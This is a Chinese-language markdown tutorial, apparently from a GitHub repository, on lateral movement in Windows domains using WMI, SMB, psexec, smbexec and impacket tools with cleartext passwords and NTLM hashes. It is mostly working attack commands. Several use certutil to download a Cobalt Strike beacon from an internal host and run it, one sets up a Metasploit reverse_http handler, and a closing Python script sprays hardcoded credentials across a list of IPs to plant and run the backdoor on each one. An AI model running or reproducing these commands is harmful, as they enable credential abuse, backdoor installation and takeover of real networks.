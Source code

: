 # 内网安全——横向移动SMB&WMI&PY配合CS全自动拿域控

# 资源地址

1. [impacket](https://github.com/SecureAuthCorp/impacket)

2. [impacket-examples-windows](https://github.com/maaaaz/impacket-examples-windows)

3. [pstools](https://docs.microsoft.com/en-us/sysinternals/downloads/pstools)

# WMI横向-cscript&wmiexec&wmic

1. WMI是通过135端口进行利用，支持用户名明文或者hash的方式进行认证，并且该方法不会在目标日志系统留下痕迹。

2. wmic

   - 内部：(单执行)

     ``` powershell
     wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe" #构造一个文件下载，下载CS后门到C盘，后面的URL为后门下载地址
     
     wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe c:/beacon.exe" #执行CS后门
     ```

2. cscript

   - 内置：(交互式)

     上传wmiexec.vbs

     ``` powershell
     cscript //nologo wmiexec.vbs /shell 192.168.3.21 administrator Admin12345
     ```

3. wmiexec

   - 外部：(交互式&单执行)

     ``` powershell
     wmiexec ./administrator:admin!@#45@192.168.3.32 "whoami"
     
     wmiexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32 "whoami"
     ```

   - 下载后门：

     ``` powershell
     wmiexec ./administrator:admin!@#45@192.168.3.32 "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
     ```

   - 执行后门：

     ``` powershell
     shell wmiexec ./administrator:admin!@#45@192.168.3.32 "cmd.exe /c c:/beacon.exe"
     ```

# SMB横向-psexec&smbexec&services

1. 利用SMB服务可以通过明文或hash传递来远程执行，条件445服务端口开放。

2. psexec

   - 内部：(交互式 windows官方工具)

     ``` powershell
     psexec64 \\192.168.3.32 -u administrator -p admin!@#45 -s cmd
     ```

   - 外部：(交互式 内网外人开发的工具)

     ``` powershell
     psexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
     ```

   - 引用MSF回显反弹接受CMD

     ``` powershell
     use exploit/multi/handler
     
     set payload windows/meterpreter/reverse_http
     
     spawn msf
     ```

3. smbexec

   - 外部：(交互式)

     ``` powershell
     smbexec ./administrator:admin!@#45@192.168.3.32
     
     smbexec god/administrator:admin!@#45@192.168.3.32
     
     smbexec -hashes :518b98ad4178a53695dc997aa02d455c ./administrator@192.168.3.32
     
     smbexec -hashes :518b98ad4178a53695dc997aa02d455c 
     
     god/administrator@192.168.3.32smbexec -hashes 
     
     god/administrator:518b98ad4178a53695dc997aa02d455c@192.168.3.32
     ```

4. services

   - 内置：(单执行)

     ``` powershell
     services -hashes :518b98ad4178a53695dc997aa02d455c ./administrator:@192.168.3.32 create -name shell -display shellexec -path C:\Windows\System32\shell.exe
     
     services -hashes :518b98ad4178a53695dc997aa02d455c ./administrator:@192.168.3.32 start -name shell
     ```

# CS全自动横向-SMB内置&WMI脚本Py

1. CS全自动看演示操作

2. Py脚本编译上传执行

   ``` python
   import os,time
   
   ips={
   
       '192.168.3.21',
   
       '192.168.3.25',
   
       '192.168.3.29',
   
       '192.168.3.30',
   
       '192.168.3.32'
   
   }
   
   users={
   
       'Administrator',
   
       'boss',
   
       'dbadmin',
   
       'fileadmin',
   
       'mack',
   
       'mary',
   
       'webadmin'
   
   }
   
   passwords={
   
       'admin!@#45',
   
       'Admin12345'
   
   }
   
   
   
   def down():
   
       for ip in ips:
   
           for user in users:
   
               for p in passwords:
   
                   #wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
   
                   #wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe c:/beacon.exe"
   
                   #wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
   
                   exec = "wmic /node:"+ip+" /user:administrator /password:"+p+' process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   exec1 = "wmic /node:" + ip + " /user:god\\"+user+" /password:" + p + ' process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"'
   
                   #exec1= "wmiexec -hashes :"+mimahash+" ./"+user+"@"+ip+" whoami"
   
                   print('--->' + exec + '<---')
   
                   print('--->' + exec1 + '<---')
   
                   os.system(exec)
   
                   os.system(exec1)
   
                   time.sleep(0.5)
   
   
   
   def exec():
   
       for ip in ips:
   
           for user in users:
   
               for p in passwords:
   
                   #wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe /c certutil -urlcache -split -f http://192.168.3.31/beacon.exe c:/beacon.exe"
   
                   #wmic /node:192.168.3.32 /user:administrator /password:admin!@#45 process call create "cmd.exe c:/beacon.exe"
   
                   #wmiexec -hashes :ccef208c6485269c20db2cad21734fe7 god/administrator@192.168.3.21 "whoami"
   
                   exec = "wmic /node:"+ip+" /user:administrator /password:"+p+' process call create "cmd.exe /c c:/beacon.exe"'
   
                   exec1 = "wmic /node:" + ip + " /user:god\\"+user+" /password:" + p + ' process call create "cmd.exe /c c:/beacon.exe"'
   
                   #exec1= "wmiexec -hashes :"+mimahash+" ./"+user+"@"+ip+" whoami"
   
                   print('--->' + exec + '<---')
   
                   print('--->' + exec1 + '<---')
   
                   os.system(exec)
   
                   os.system(exec1)
   
                   time.sleep(0.5)
   
   if __name__ == '__main__':
   
       down()
   
       exec()
   ```

   

